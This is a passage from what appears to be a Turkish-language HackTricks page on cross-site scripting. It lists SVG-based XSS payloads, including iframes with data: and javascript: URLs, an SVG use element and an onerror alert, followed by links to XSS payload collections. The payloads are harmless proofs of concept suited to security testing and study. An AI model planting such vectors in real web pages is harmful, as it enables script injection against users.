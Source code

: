 ```svg
<svg width="500" height="500"
xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
<circle cx="50" cy="50" r="45" fill="green"
id="foo"/>

<foreignObject width="500" height="500">
<iframe xmlns="http://www.w3.org/1999/xhtml" src="data:text/html,&lt;body&gt;&lt;script&gt;document.body.style.background=&quot;red&quot;&lt;/script&gt;hi&lt;/body&gt;" width="400" height="250"/>
<iframe xmlns="http://www.w3.org/1999/xhtml" src="javascript:document.write('hi');" width="400" height="250"/>
</foreignObject>
</svg>
```

```html
<svg><use href="//portswigger-labs.net/use_element/upload.php#x" /></svg>
```

```xml
<svg><use href="data:image/svg+xml,&lt;svg id='x' xmlns='http://www.w3.org/2000/svg' &gt;&lt;image href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />
```
Find **daha fazla SVG yüklemesi için** [**https://github.com/allanlw/svg-cheatsheet**](https://github.com/allanlw/svg-cheatsheet)

## Çeşitli JS Hileleri ve İlgili Bilgiler

{{#ref}}
other-js-tricks.md
{{#endref}}

## XSS kaynakları

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection)
- [http://www.xss-payloads.com](http://www.xss-payloads.com) [https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt](https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt) [https://github.com/materaj/xss-list](https://github.com/materaj/xss-list)
- [https://github.com/ismailtasdelen/xss-payload-list](https://github.com/ismailtasdelen/xss-payload-list)
- [https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
- [https://netsec.expert/2020/02/01/xss-in-2020.html](https://netsec.expert/2020/02/01/xss-in-2020.html)

{{#include ../../banners/hacktricks-training.md}}
